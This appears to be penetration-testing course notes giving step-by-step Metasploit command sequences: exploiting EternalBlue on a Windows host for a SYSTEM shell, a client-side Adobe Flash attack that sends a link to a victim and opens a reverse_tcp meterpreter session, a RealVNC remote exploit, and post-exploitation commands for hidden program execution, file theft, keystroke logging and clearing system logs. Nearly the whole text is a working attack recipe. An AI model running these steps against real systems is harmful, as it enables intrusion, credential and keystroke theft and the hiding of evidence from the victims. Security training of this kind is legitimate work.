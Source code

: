 ### EternalBlue & Metasploit - Video

`search eternalblue`: to list all the modules realted to EternalBlue.
`use auxiliary/scanner/smb/smb_ms17_010`: to scan the target in order to know if it is vulnerable to EternalBlue exploit; `show options`, `set RHOSTS 192.168.1.2`, `run`.
`use exploit/windows/smb/smb_ms17_010_eternalblue`, `show options`, `set RHOST 192.168.1.2`, `exploit`: to attempt to exploit our target.
Note that if the exploit does not work we can try to change other options.
If the exploitation succeeds we obtain a shell with "NT AUTHORITY\SYSTEM" privileges.

### Client Side Exploitation - Video

`msfconsole`, `use exploit/multi/browser/adobe_flash_hacking_team_uaf`: to mount a client-side attack against a Linux machine (the used module works on both Linux and Windows machines) that exploits an old vulnerability in Adobe Flash.
`info`, `show options`, `set URIPATH test`: to set the link the module is going to create, `show targets`, `set TARGET 1`: to set the Linux target, `set PAYLOAD linux/x86/meterpreter/reverse_tcp`: to set the payload, `show options`, `set LHOST 192.168.1.3`, `exploit`: Metasploit will print the link to send to the victim.
Once the victim opens the link, Metasploit will start a new meterpreter session (in the output we can see the ID of the session just obtained).

`sessions`: to see all the sessions available;
`sessions -i 1`: to interact with the obtained session;
`background`: to go back in the Metasploit console;
`jobs`: to see the current running modules;
`jobs -k 0`: to kill one running module specifing its ID.

### Remote Exploitation - Video

`nmap -sS 192.168.1.2 --script smb-os-discovery`: to get some information about the target. 
We see it has Windows 8.1 as OS and VNC service running on 5900 port.

`msfconsole`, `grep vnc search type:exploit`, `use exploit/multi/vnc/vnc_keyboard_exec`: to mount a remote attack against a Windows (the used module works on both Linux and Windows machines) that exploits a vulnerability in RealVNC server (send virtual keyboard keys to execute the payload on the server).
`show options`, `set RHOST 192.168.1.2`, `set PASSWORD VNCpwd`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 192.168.1.3`, `exploit`: Metasploit will start a new meterpreter session (in the output we can see the ID of the session just obtained).

### Metasploit Usage - Video

A big advantage of Meterpreter is the ability to execute Unix-like commands (such as `cd`, `ls`, `cat`) even on Windows machines.
`info` to show the available commands.
`ifconfig` and `sysinfo` are very useful commands.
Another useful option is the ability to transfer files between the host and the vulnerable machine using `download` and `upload`: `download C:\\Users\\Documents\test.txt`, `upload test.exe C:\\Users\\Documents`.
`edit test.txt`: to edit a file using a text editor.
`execute -f cmd.exe -i H`: to execute a specific program presents on the target machine, where `H` hides the program execution to the current users, `-i` to interact with the program once executed. In alternative can be used `shell`.
`search -f secret.*`: is used to search for files in the target machine.
`run <ScriptFilepath>`: to run Meterpreter scripts (e.g. `run post/windows/gather/enum_applications`, where `post` stands for Post-Exploitation).
`ps`: to get all the running services, `getid <ServiceName>`: to get the PID of a specific running service, `migrate <ProcessID>`: to migrate the Meterpreter session PID to a new ProcessID.
`keyscan_start`: to start the capture of keystrokes, `keyscan_dump`: to view the captured keystrokes, `keyscan_stop`: to pause the keystrokes capturing.
`clearev`: to hide the traces (try to clean the system logs) from the target machines.
